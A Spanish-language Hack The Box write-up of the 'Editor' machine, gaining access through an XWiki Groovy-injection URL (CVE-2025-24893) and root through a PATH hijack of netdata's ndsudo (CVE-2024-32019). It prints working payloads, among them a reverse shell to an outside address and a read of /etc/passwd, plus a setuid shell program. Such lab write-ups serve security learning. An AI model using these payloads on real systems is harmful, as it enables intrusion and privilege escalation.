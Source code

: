 ```yaml
---
date: '2025-08-06T15:26:48Z'
draft: false
title: 'HTB: Editor'
---
```


# Algunas notas sobre la máquina [Editor](https://app.hackthebox.com/machines/684) de [Hack The Box](https://www.hackthebox.com/)

## Acceso

La intrusión la realicé aprovechando la vulnerabilidad [CVE-2025-24893](https://nvd.nist.gov/vuln/detail/CVE-2025-24893) en la página web. Después de analizar este [PoC](https://www.exploit-db.com/exploits/52136), comencé a probar con distintos payloads:

```bash
# CVE-2025-24893
http://editor.htb:8080/xwiki/bin/get/Main/SolrSearch?media=rss&text=}}}{{async async=false}}{{groovy}}println("cat /etc/passwd".execute().text){{/groovy}}{{/async}}

http://editor.htb:8080/xwiki/bin/get/Main/SolrSearch?media=rss&text=}}}{{async async=false}}{{groovy}}println("whoami".execute().text){{/groovy}}{{/async}}

http://editor.htb:8080/xwiki/bin/get/Main/SolrSearch?media=rss&text=}}}{{async async=false}}{{groovy}}println("busybox nc 10.10.15.14 443 -e bash".execute().text){{/groovy}}{{/async}}
```

Esto me dio acceso al equipo como el usuario `xwiki`.

---

## Reseteo de contraseña para el usuario `neal`

Buscando credenciales, encontré en **/var/lib/xwiki/data/mails/** que, si desde la web se hacía una petición para cambiar la clave de un usuario válido, el sistema enviaba un correo con un link para restablecer la contraseña.

Así fue como pude cambiar la clave del usuario `neal` y acceder a la wiki. Dentro del servicio no encontré nada útil, pero me pareció interesante ver cómo funciona por detrás esta parte del sistema.

### Link de ejemplo que envia el sistema

```
http://editor.htb:8080/xwiki/authenticate/wiki/xwiki/resetpassword?u=xwiki:XWiki.neal&v=BpqfjCA4Ig0NvmvmoduOVq05oUkX7z
```

---

## Root

Una vez dentro del equipo como el usuario `oliver`, listé los binarios con permisos SUID y me llamó la atención esta línea:

```bash
find / -perm -4400 -type f 2>/dev/null 
# --> /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo
```

Buscando información, encontré el [CVE-2024-32019](https://nvd.nist.gov/vuln/detail/CVE-2024-32019) y estas páginas que explican cómo explotarlo:

- [netdata](https://github.com/netdata/netdata/security/advisories/GHSA-pmhq-4cxq-wj93)
- [sploitus](https://sploitus.com/exploit?id=5077683C-F7E6-58BE-9375-B5A13A8782C5)

Entonces cree el archivo poc.c con el siguiente contenido

```c
#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdlib.h>

int main()
{
        setuid(geteuid());
        system("/bin/bash");
        return 0;
}
```

lo compile

```bash
gcc poc.c -o nvme
```

y finalmente, ejecuté el siguiente comando para convertirme en `root`:

```bash
# CVE-2024-32019
PATH=$(pwd):$PATH /opt/netdata/usr/libexec/netdata/plugins.d/ndsudo nvme-list
```

saludos!!
